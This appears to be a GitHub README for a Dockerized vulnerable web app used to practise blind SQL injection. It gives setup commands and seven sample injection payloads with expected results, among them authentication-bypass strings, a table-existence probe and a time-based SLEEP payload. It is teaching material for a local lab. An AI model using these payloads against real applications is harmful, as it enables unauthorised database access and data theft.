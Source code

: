 ### Blind SQL Injection - Dockerized

This project provides a Dockerized environment to simulate and test **Blind SQL Injection** attacks in a secure and isolated setup. 
The goal is to help users understand the mechanics of this attack, how it differs from traditional SQL Injection, and how to experiment with it using practical examples.

---

### What is Blind SQL Injection?

#### Difference Between SQL Injection and Blind SQL Injection

**SQL Injection** allows attackers to directly view the results of their malicious queries, such as database errors or data displayed on the webpage. It is fast and straightforward since the output is immediately visible.

**Blind SQL Injection**, however, does not show direct results. Instead, attackers infer information by observing the application’s behavior (e.g., response times or changes in output). It is slower and more complex but can still extract sensitive data with persistence.

---

### Prerequisites

To run the Dockerized application, ensure the following are installed on your system:

- [Docker](https://www.docker.com/) (required to load and run the image)  
- [Git](https://git-scm.com/) (optional, for cloning the repository)  
- System with at least **2GB of free space** (the image size is ~801 MB).  

---

### Installation and Usage

Follow these steps to set up and run the application:

#### 1. Clone the Repository

If you haven't already, clone the repository from GitHub:
```bash
git clone https://github.com/ALAOUIa/Blind_SQL_Injection-App.git
```

```bash
cd Abdelaziz_Blind-SQL-Injection-Dockerized
```

#### 2. Load the Docker Image

Load the prebuilt Docker image from the `.tar` file:
```bash
docker load -i Abdelaziz_Blind-SQL-Injection.tar
```

#### 3. Run the Docker Container

Start the container with the following command:
```bash
docker run -p 8080:80 abdelaziz/dvwa-custom
```

#### 4. Access the Application

Open your browser and navigate to:
```
http://localhost:8080
```

#### 5. Test SQL Injection Attacks

Use the examples provided in the [Examples](#examples-of-blind-sql-injection-attacks) section to test Blind SQL Injection on the vulnerable endpoints.

---

### Examples of Blind SQL Injection Attacks

Here are some sample payloads to test on the vulnerable application:

##### 1. Bypass Authentication Using Always-True Condition

##### Query:
```
1' OR '1'='1' -- 
```

##### Explanation:
This query leverages an always-true condition (`'1'='1'`) to bypass checks and fetch any available record in the database.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 2. Validating the Query with Always-True Condition

##### Query:
```
1' AND '1'='1' -- 
```

##### Explanation:
This query tests whether a condition that is always true (`'1'='1'`) correctly processes and confirms the result.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 3. Testing for Always-False Condition

##### Query:
```
1' AND '1'='2' -- 
```

##### Explanation:
This query uses an always-false condition (`'1'='2'`) to validate that no result is returned when the condition fails.

##### Expected Result:
```
User ID is MISSING from the database.
```

---

##### 4. Fetching All Records Without Conditions

##### Query:
```
1' OR 1=1 -- 
```

##### Explanation:
This query bypasses any filter by using the logical condition `1=1`, which is always true.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 5. Testing the Presence of a Table (Example: `users`)

##### Query:
```
1' AND EXISTS(SELECT 1 FROM users) -- 
```

##### Explanation:
This query checks whether a table named `users` exists in the database by using the SQL `EXISTS` function.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 6. Testing for Non-Existing Table or Condition

##### Query:
```
1' AND EXISTS(SELECT 1 FROM non_existing_table) -- 
```

##### Explanation:
This query attempts to check for a non-existing table (`non_existing_table`) and should fail, demonstrating the absence of the table.

##### Expected Result:
```
User ID is MISSING from the database.
```

---

##### 7. Delay-Based Blind SQL Injection

##### Query (If Supported):
```
1' AND IF(1=1, SLEEP(3), 0) -- 
```

##### Explanation:
This query introduces a delay (`SLEEP(3)`) when the condition (`1=1`) is true, making it useful for blind SQL injection.

##### Expected Behavior:
- The response is delayed by 3 seconds if the condition is true.
- No delay occurs if the condition is false.


---


### Disclaimer

This project is intended **solely for educational purposes**. Do not attempt these attacks on live systems or without explicit authorization. Misuse of this knowledge is unethical and may be illegal.
